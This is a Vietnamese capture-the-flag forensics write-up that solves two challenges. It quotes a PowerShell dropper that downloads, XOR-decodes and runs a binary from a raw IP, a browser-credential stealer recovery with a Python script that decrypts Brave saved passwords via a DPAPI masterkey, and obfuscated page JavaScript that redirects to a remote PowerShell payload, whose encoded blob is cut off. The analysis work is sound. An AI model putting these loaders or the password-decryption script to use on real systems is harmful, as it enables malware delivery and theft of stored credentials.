## ILikeMe
### Description
```
Point : 500
Description: Our client, KCS Company, has discovered that their employee data has been sold on the black market. They quickly contacted us to investigate how the data was leaked and sold on the dark web.
Please help us investigate how the data leaked and find out what data was leaked by using your skills and the evidence we have gathered.

Flag format: KMACTF{} Flag = part1 + part2 + part3

Author: yobdas
```
### Solution 
- Challenge cho ta 1 file disk, mount nó ra ta có ổ C của nạn nhân.
- Truy cập vào `C\Users` ta thấy có 1 user tên `nenxo`, ta sẽ điều tra từ đây
- Với những bài có dữ liệu bị đánh cắp hoặc malware như này, thông thường mình sẽ check log trước.
- Mình check logs trong windows thông qua đường dẫn `C\Windows\System32\winevt\logs`
- 
```
powershell -Command iwr http://35.238.54.127/device.bin -OutFile device.bin; $bytes = [System.IO.File]::ReadAllBytes('device.bin'); $key = [System.Text.Encoding]::UTF8.GetBytes('y0u@r3f4t4nDfUcK1n9G@Y'); $result = for($i=0; $i -lt $bytes.Length; $i++) { $bytes[$i] -bxor $key[$i % $key.Length] };$t = @('4b','4d','41','43','54','46','7b','68','34','76','65','5f','79','6f','75','5f','65','76','61','5f','74','72','79','5f','74','6f','5f');$cs = ($t | ForEach-Object { [char]([convert]::ToInt32($_, 16)) }) -join '';Write-Output $cs;[System.IO.File]::WriteAllBytes('device.exe', [byte[]]$result); ./device.exe; Remove-Item -Path ./device.bin
```
- Ở đây ta thấy nó tải 1 file từ url `http://35.238.54.127/device.bin` và lưu bằng tên `device.bin`
- Sau đó sử dụng key là `UTF8.GetBytes('y0u@r3f4t4nDfUcK1n9G@Y')` và xor với `$result` có giá trị là `'4b','4d','41','43','54','46','7b','68','34','76','65','5f','79','6f','75','5f','65','76','61','5f','74','72','79','5f','74','6f','5f'` và đây cũng là phần đầu của flag. CUối cùng xoá file `./device.bin`
- 

> Part 1 : KMACTF{h4ve_you_eva_try_to_

- Tiếp tục điều tra ta thấy rằng có 1 file tại thư mục `C\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`, các file tại đường dẫn này có thể hiểu đơn giản là nó sẽ tự động chạy sau khi người dùng đăng nhập.
- 
- Upload lên VirusTotal ta có thể thấy nó là malware
- 
- Ta có thể xác định được nó được viết bằng .NET thông qua mục DETAILS 
- Chuyển qua phần `BEHAVIOR`
- 
- 
- 
- Nhìn vào các file bị xoá và mở khả năng cao nó là stealer lấy thông tin mật mẩu và user của trình duyệt
- Vì file được viết bằng .NET mình sẽ sử dụng công cụ dnSpy để phân tích thì nó đúng là công cụ ăn cắp dữ liệu từ trình duyệt thật.
- Tuy nhiên khi mình strings file với option là `-el` này thì thấy 1 chuỗi base64, giải mã ta được part2
```
┌──(kali㉿kali)-[~/Downloads]
└─$ strings -el tPaxi.scr 
┌──(kali㉿kali)-[~/Downloads]
└─$ echo "YW5AbHk1M181N2VAbDNyX2FuZF8=" | base64 -d                        
an@ly53_57e@l3r_and_        
```

> Part 2 : an@ly53_57e@l3r_and_

- Vì đây là dạng mã độc đánh cắp thông mật khẩu ở trình duyệt, nên ta kiểm tra luôn các thông tin liên quan đến mật khẩu trình duyệt
- 
- Ở đây ta thấy 2 trình duyệt, kiểm tra từng trình duyệt tại file Login Data . Tại file Login Data  của trình duyệt brave (`C\Users\nenxo\AppData\Local\BraveSoftware\Brave-Browser\User Data\Default`) ta thấy 1 vài điều thú vị.
- Vì đây là file là file cơ sở dữ liệu của hệ quản trị SQLite nên ta sẽ mở bằng công cụ `DB Browser for SQLite` hoặc mở online thông qua trình duyệt. 
- Mình sẽ mở bằng công cụ `DB Browser for SQLite`.
- 
- Tại đây ta thấy hầu hết victim truy cập vào đường dẫn `http://yobdasmi.bounceme.net/login` và lưu mật khẩu lại, có 1 username mang tên `flagishere`, tuy nhiên mật khẩu đã bị mã hoá.
- Để trích xuất được mật khẩu ta cần trích xuất masterkey được lưu trong `C\Users\nenxo\AppData\Roaming\Microsoft\Protect`
- Ta sẽ thực hiện bruteforce để lấy được mật khẩu người dùng, nhưng trước tiên ta phải lấy được hash của nó bằng công cụ [DPAPImk2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/DPAPImk2john.py)
```
┌──(kali㉿kali)-[~/Downloads]
└─$ python DPAPImk2john.py -S S-1-5-21-2057680790-252005932-2337558040-1000 -mk S-1-5-21-2057680790-252005932-2337558040-1000/22fc42d0-cc7d-4dbc-b18b-b77497d1c289 -c local > hash
```
- Tiếp tục là sử dụng john hoặc hashcat để bruteforce 
- Sau khi chạy thì đầu ra không có mật khẩu 
- 
- Giờ thì tiếp tục trích xuất masterkey bằng công cụ [dpapi.py](https://github.com/fortra/impacket/blob/master/examples/dpapi.py) của impacket 
```
┌──(kali㉿kali)-[~/Downloads/impacket/examples]
└─$ ./dpapi.py masterkey -file ~/Downloads/S-1-5-21-2057680790-252005932-2337558040-1000/22fc42d0-cc7d-4dbc-b18b-b77497d1c289 -sid S-1-5-21-2057680790-252005932-2337558040-1000  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 22fc42d0-cc7d-4dbc-b18b-b77497d1c289
Flags       :        5 (5)
Policy      :        0 (0)
MasterKeyLen: 000000b0 (176)
BackupKeyLen: 00000090 (144)
CredHistLen : 00000014 (20)
DomainKeyLen: 00000000 (0)

Password:
Decrypted key with User Key (SHA1)
Decrypted key: 0x21d9776b70ff18aaa92815364baf49e60de7d72fb18478cede5e59194c1d88e712e744c63483cc9aadd6ee3760c647a1420a3d42880eecb14278a9884eefb9d1
```
- Giờ ta đã có masterkey là `21d9776b70ff18aaa92815364baf49e60de7d72fb18478cede5e59194c1d88e712e744c63483cc9aadd6ee3760c647a1420a3d42880eecb14278a9884eefb9d1` ta chỉ việc viết script để decrypt mật khẩu là xong 

<details>
<summary>
Đây là script
</summary>

```
import os
import json
import sqlite3
import base64
from impacket.dpapi import DPAPI_BLOB
from binascii import unhexlify
from Cryptodome.Cipher import AES

local_state = r'G:\C\Users\nenxo\AppData\Local\BraveSoftware\Brave-Browser\User Data\Local State'
login_data = r'G:\C\Users\nenxo\AppData\Local\BraveSoftware\Brave-Browser\User Data\Default\Login Data'
masterkey = unhexlify("21d9776b70ff18aaa92815364baf49e60de7d72fb18478cede5e59194c1d88e712e744c63483cc9aadd6ee3760c647a1420a3d42880eecb14278a9884eefb9d1")

def get_encrypted_key(localstate):
    with open(localstate, 'r') as f:
        encrypted_key = json.load(f)['os_crypt']['encrypted_key']
        encrypted_key = base64.b64decode(encrypted_key)
    f.close()
    return encrypted_key

def get_credentials(logindata, i):
    conn = sqlite3.connect(logindata)
    cursor = conn.cursor()
    cursor.execute('SELECT action_url, username_value, password_value FROM logins')
    rows = cursor.fetchall()
    url = rows[i][0]
    username = rows[i][1]
    encrypted_value = rows[i][2]
    return url, username, encrypted_value

def decrypt_creds(key, value):
    if value.startswith(b'v10'):
        nonce = value[3:3+12]
        ciphertext = value[3+12:-16]
        tag = value[-16:]
        cipher = AES.new(key, AES.MODE_GCM, nonce)
        password = cipher.decrypt_and_verify(ciphertext, tag)
    else:
        password = DPAPI_BLOB.decrypt(value)
    return password

encrypted_key = get_encrypted_key(local_state)
enc_key_blob = DPAPI_BLOB(encrypted_key[5:])
localstate_key = enc_key_blob.decrypt(masterkey)
for i in range(0, 6):
    url, username, encrypted_value = get_credentials(login_data, i)
    password = decrypt_creds(localstate_key, encrypted_value)
    print(" \n "  + " URL: " + url + " \n " + " Username: " + username + "\n " + " Decrypted Password: " + password.decode("utf-8"))
```

</details>


- Và đây là đầu ra 

```
 
  URL: http://yobdasmi.bounceme.net/login
  Username: flagishere
  Decrypted Password: 641ed96e053bafdecaa55279fc7bcd9844f6cc8c668b0d6a5e0c6119b5c5e1d5

  URL: http://yobdasmi.bounceme.net/login
  Username: nenxo
  Decrypted Password: 71a2ee2d07d64e345f6840d4da028c4dec6bbbe8a264ecd525f2004e38053813

  URL: http://yobdasmi.bounceme.net/login
  Username: johnnymohon
  Decrypted Password: 07618d36b5904a2730d5ede1aa6b7e65c162a131612921e170ccb8c6e9a78e02

  URL: http://yobdasmi.bounceme.net/login
  Username: alicesupanova
  Decrypted Password: 9974550bfe7d3eed9ead516fc30727025fd7775b70f323458dc6d791f76bc8da

  URL: http://yobdasmi.bounceme.net/login
  Username: jira
  Decrypted Password: a8c32ffc14b498cdc09882646d9cf3b2b219e05937a7fe7ff61f1e6b8f3ccf3b
 
  URL: http://yobdasmi.bounceme.net/login
  Username: fantungnui1000nam
  Decrypted Password: 0f7cc5fa5d52e54a34151ebaf2a49d93b48f8ce9db4e7902131979795c95ea02
```
- Đăng nhập vào tài khoản `flagishere`.
- 
- Tiếp tục đăng nhập vào các tài khoản khác, tại tài khoản `jira` mình thấy 1 chuỗi base64 decode ta được phần 3 của flag.
- 
> Part 3 : f0unD_vict1m_cr3d3nt|@l?


> Flag : KMACTF{h4ve_you_eva_try_to_an@ly53_57e@l3r_and_f0unD_vict1m_cr3d3nt|@l?}


- Tham khảo : [https://forensicskween.com/ctf/hack-the-box/htb-seized/](https://forensicskween.com/ctf/hack-the-box/htb-seized/)

## ℵ

### Description 
```
Point : 496

¯\_(ツ)_/¯

Author: Nex0

Xem gợi ý
jump condition?
```
### Solution 
- Challenge cho ta 1 src của 1 trang web, mở folder này bằng VS Code để xem mã bên trong.
- Tại file `director.html` ta thấy rằng có 1 script base64 bị ẩn bên trong 
- 
- Sử dụng cyberchef để decode 
```
$(_ => {
    console.log
    const kietbel = atob($('.noko').val())
    const gnoah = decodeHex(kietbel);
    document.body.style.backgroundImage = 'url(https://raw.githubusercontent.com/NVex0/Asset/main/ded.png)';
    $('#banner').attr('src', 'https://raw.githubusercontent.com/NVex0/Asset/main/log.png');
    fetch('https://ifconfig.me/ip')
        .then(response => response.text())
        .then(ip => {
            fetch(`http://ipwho.is/${ip}`)
            .then(response => response.json())
            .then(data => {
                const country = data.country;
                if (country != 'NOKOTAN CITY') {
                    const lich = atob($('.nokotan').val());
                    const bane = decodeHex(lich);
                    window.location.href = bane + gnoah;
                }
            })
            .catch(error => {
                    console.error('Error getting country:', error);
                });
        })
        .catch(error => {
            console.error('Error getting IP:', error);
        });
    setTimeout(() => {
        window.location.href = 'https://www.youtube.com/watch?v=fxPcJTU-A8U';
    }, 3500);
});
function decodeHex(val) {
    var hex = val.toString();
    var str = '';
    for (var i = 0; i < hex.length; i += 2)
        str += String.fromCharCode(parseInt(hex.substr(i, 2), 16));
    return str;
}
```
- Tại phần `window.location.href = bane + gnoah;` ta có thể thấy được chúng chuyển hướng đến 1 đường dẫn mới bằng cách cộng 2 chuỗi bane và gnoah. 
- Với chuỗi  `bane` được tạo thành bằng cách giải mã base64 từ class .nokotan và decode hex
```
const lich = atob($('.nokotan').val());
const bane = decodeHex(lich);
```
- Chuỗi gnoah cũng tương tự với class .noko.
- Để biết window.location.href là giá trị gì ta quay lại `director.html` và tìm các class liên quan 
- 
- 
- Nối lại ta có thể thấy nó chuyển hướng đến `https://gitlab.com/theonlyneevec1/anhkhongmuonbocdau/-/blob/4b31ca54b92e6bfc33bcc69b87418d2d4b79254a/Nokotan.png.ps1`
- Đây là mã nguồn của file ps1 đó 
```
$cne = "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